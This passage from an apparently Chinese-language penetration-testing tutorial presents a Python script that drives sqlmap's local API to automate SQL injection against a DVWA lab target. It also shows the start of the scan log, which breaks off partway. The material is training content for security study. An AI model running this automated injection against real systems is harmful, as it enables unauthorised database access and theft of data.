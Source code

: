 前面的屏幕截图验证了后端数据库是 MySQL，参数 ID 容易受到 SQL 注入攻击。

让我们借助 Python 脚本自动化整个过程，如下所示。将脚本命名为`sql_automate.py`：

```py
import requests
import json
import time
import pprint

class SqliAutomate():

 def __init__(self,url,other_params={}):
 self.url=url
 self.other=other_params 

 def start_polling(self,task_id):
 try:
 time.sleep(30)
 poll_resp=requests.get("http://127.0.0.1:8775/scan/"+task_id+"/log")
 pp = pprint.PrettyPrinter(indent=4)
 #print(poll_resp.json())
 pp.pprint(poll_resp.json())
 except Exception as ex:
 print("Exception caught : " +str(ex))

 def start(self):
 try: 
 task_resp=requests.get("http://127.0.0.1:8775/task/new")
 data=task_resp.json()
 if data.get("success","") ==True:
 task_id=data.get("taskid")
 print("Task id : "+str(task_id))
 data_={'url':self.url}
 data_.update(self.other)
 opt_resp=requests.post("http://127.0.0.1:8775/option/"+task_id+"/set",json=data_)
 if opt_resp.json().get("success")==True:
 start_resp=requests.post("http://127.0.0.1:8775/scan/"+task_id+"/start",json=data_)
 if start_resp.json().get("success")==True:
 print("Scan Started successfully .Now polling\n")
 self.start_polling(task_id)
 except Exception as ex:
 print("Exception : "+str(ex))

other={'cookie':'PHPSESSID=7brq7o2qf68hk94tan3f14atg4;security=low'}
obj=SqliAutomate('http://192.168.250.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit',other)
obj.start()

```

让我们执行脚本并获取 SQL 注入的输出，如下所示：

```py
root@thp3:~/sqli_automate# python sqli_automate.py
Task id : d0ba910ae1236ff4
Scan Started successfully .Now polling

{   u'log': [   {   u'level': u'INFO',
                    u'message': u'testing connection to the target URL',
                    u'time': u'13:13:15'},
                {   u'level': u'INFO',
                    u'message': u'checking if the target is protected by some kind of WAF/IPS/IDS',
                    u'time': u'13:13:15'},
                {   u'level': u'INFO',
                    u'message': u'testing if the target URL content is stable',
                    u'time': u'13:13:15'},
```